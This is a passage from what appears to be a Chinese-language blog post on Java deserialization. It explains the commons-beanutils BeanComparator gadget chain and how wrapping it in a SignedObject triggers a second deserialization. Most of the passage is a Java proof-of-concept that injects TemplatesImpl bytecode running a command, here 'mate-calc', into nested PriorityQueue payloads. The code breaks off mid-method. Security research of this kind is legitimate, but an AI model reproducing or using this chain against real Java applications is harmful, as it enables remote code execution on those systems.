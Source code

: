 茯苓苦思冥想啊，突然想到，能调用 getter 方法的可不止上面提到的，对，就是那个，喊出来吧

##### BeanComparator

![image-20220810101743856](./Zets/index/image-20220810101743856.png)

这条链相信大家都耳熟能详，结合p神构造 CBShiro 的方式让该链只依赖于 commons-beanutils

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.PriorityQueue;
import static util.Tool.*;

public class CB_SingedfObject {
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());

        PriorityQueue queue1 = getpayload(obj, &#34;outputProperties&#34;);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));

        PriorityQueue queue2 = getpayload(signedObject, &#34;object&#34;);

        run(queue2, &#34;debug&#34;, &#34;object&#34;);
    }
    public static PriorityQueue&lt;Object&gt; getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add(&#34;1&#34;);
```